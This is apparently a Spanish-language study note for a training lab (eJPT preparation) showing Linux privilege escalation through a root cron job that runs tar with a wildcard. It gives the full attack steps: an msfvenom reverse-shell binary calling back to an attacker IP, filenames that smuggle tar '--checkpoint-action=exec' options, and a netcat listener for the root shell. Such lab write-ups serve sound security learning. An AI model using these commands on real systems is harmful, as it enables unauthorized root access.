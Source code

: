 - Vea el contenido del otro script de trabajo cron:

```
cat /usr/local/bin/compress.sh
```
Tenga en cuenta que el comando tar se ejecuta con un comodín (*) en su directorio de inicio.

- Eche un vistazo a la página GTFOBins para encontrar tar. Tenga en cuenta que tar tiene opciones de línea de comando que le permiten ejecutar otros comandos como parte de una función de punto de control.

- Use msfvenom on your Kali box to generate a reverse shell ELF binary. Update the LHOST IP address accordingly:

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=4444 -f elf -o shell.elf
```

- Transfiera el archivo shell.elf a /home/user/ en la máquina virtual Debian (puede usar scp o alojar el archivo en un servidor web en su Kali Box y usar wget). Asegúrese de que el archivo sea ejecutable:

```
chmod +x /home/user/shell.elf
```
- Cree estos dos archivos en /home/user:

```
touch /home/user/--checkpoint=1  
touch /home/user/--checkpoint-action=exec=shell.el 
```

- Cuando se ejecuta el comando tar en el trabajo cron, el comodín (*) se expandirá para incluir estos archivos. Dado que sus nombres de archivos son opciones de línea de comando tar válidas, tar los reconocerá como tales y los tratará como opciones de línea de comando en lugar de nombres de archivo.

- Configure un detector de netcat en su caja Kali en el puerto 4444 y espere a que se ejecute el trabajo cron (no debería tardar más de un minuto). Un shell raíz debería conectarse nuevamente a su oyente netcat.

```
nc -nvlp 4444
```

- Recuerde salir del shell raíz y eliminar todos los archivos que creó para evitar que el trabajo cron se ejecute nuevamente:

```
rm /home/user/shell.elf  
rm /home/user/--checkpoint=1  
rm /home/user/--checkpoint-action=exec=shell.elf
```

enlace:
[[Preparacion-Ejpt]]
[[Cron Jobs - PATH Environment Variable]]
[[Cron Jobs - File Permissions]]